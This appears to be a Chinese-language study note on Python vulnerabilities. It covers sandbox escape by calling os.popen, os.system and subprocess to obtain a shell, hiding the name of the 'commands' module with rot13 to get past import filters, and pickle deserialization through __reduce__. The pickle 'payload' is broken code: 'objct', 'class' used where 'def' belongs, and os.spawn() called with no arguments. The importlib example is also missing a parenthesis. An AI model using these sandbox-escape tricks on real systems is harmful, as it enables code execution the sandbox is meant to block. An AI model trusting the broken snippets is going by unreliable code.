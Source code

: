 # python 常见漏洞分析

## 沙箱逃逸

目标：

- os包中的popen, system来getshell
- commends模块中的方法
- subprocess
- 写文件到指定位置

```python
import os
import subprocess
import commands

# python = 2
os.popen('ifconfig')
commands.getoutput('ifconfig')
commands.getstatusoutput('ifconfig')

# python >= 2
os.system('ifconfig')
os.spawn('ifconfig')
subprocess.getstatusoutput('pwd')
subprocess.call(['ifconfig'],shell=True)
subprocess.check_call("exit 1", shell=True)
subprocess.check_output("exit 1", shell=True)
```

### 绕过 import

- import
- \_\_import\_\_
- importlib

### 绕过指定包引入

=== "__import__"
    ```python
    f3ck = __import__("pbzznaqf".decode('rot_13'))
    print f3ck.getoutput('ifconfig')
    ```
=== "importlib"
    ```python
    import importlib
    f3ck = importlib.import_module("pbzznaqf".decode('rot_13')
    print f3ck.getoutput('ifconfig')
    ```

## pickle 反序列化

pickle模块用来对Python对象执行序列化和反序列化。Python的任何对象都可以通过它永久保存到硬盘文件。Pickle实际上是先把Python对象（list、dict、class等）转换为字符流，这个字符流包含反序列化（从字符流构建对象）所需的所有数据。

pickle有两个主要方法：`pickle.dump` 把对象导入到文件，`pickle.load` 从文件中加载对象。

??? note "pickle原理和控制字符"
    Pickle是一种堆栈语言，这意味着pickle指令将数据推入堆栈或从堆栈中弹出数据并以某种方式对其进行操作。要了解典型的泡菜工作原理，我们只需要了解以下六种泡菜说明即可：
    c：接下来的2行内容类似于，os.system、urllib.unquote是module.object的形式。
    (：就是左括号
    t：相当于右扩号
    S：代表本行后面的内容是String，即字符串。
    R：执行紧靠自己左边的一个括号对中的内容，即( 和他t直接的内容。
    .：点号结束pickle。

`pickle.dump` 将用户提供的内容序列化后，配合 `__reduce__` 魔术方法，可以在序列化的同时执行这之中的内容。

payload：

```python
import base64
import pickle

import os

class a(objct):
    class __reduce__(self):
        return (os.spawn())
```